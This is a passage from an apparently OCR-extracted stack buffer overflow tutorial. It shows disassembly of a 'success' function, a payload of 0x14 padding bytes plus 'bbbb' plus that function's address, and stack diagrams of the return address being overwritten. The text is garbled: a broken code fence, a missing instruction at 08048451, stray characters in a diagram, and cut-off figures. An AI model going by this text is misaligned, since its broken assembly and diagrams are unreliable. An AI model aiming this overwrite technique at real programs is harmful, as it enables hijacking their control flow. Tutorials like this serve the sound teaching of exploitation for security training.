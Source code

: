 ```text

                                           |                 |

                              s,ebp-0x14-->+-----------------+

```



And, we can get the address of success through IDA, its address is 0x0804843B.


`` `asm
.text:0804843B success         proc near

.text:0804843B                 push    ebp

.text:0804843C                 mov     ebp, esp

.text:0804843E                 sub     esp, 8

.text:08048441                 sub     esp, 0Ch

.text:08048444                 push    offset s        ; "You Hava already controlled it."

.text:08048449                 call    _puts

.text:0804844E                 add     esp, 10h

.text: 08048451
.text:08048452                 leave

.text: 08048453 retn
.text:08048453 success         endp

```



Then if we read the string is


```

0x14*'a'+'bbbb'+success_addr

```



Then, since gets will read the carriage return, we can directly read all the strings, and cover the saved ebp to bbbb and the retaddr to success_addr. That is, the stack structure at this time is


```text

                                           +-----------------+

                                           |    0x0804843B   |
                                           +-----------------+

| . \ t
                                    ebp--->+-----------------+

                                           |                 |

                                           |                 |

                                           |                 |

                                           |                 |
```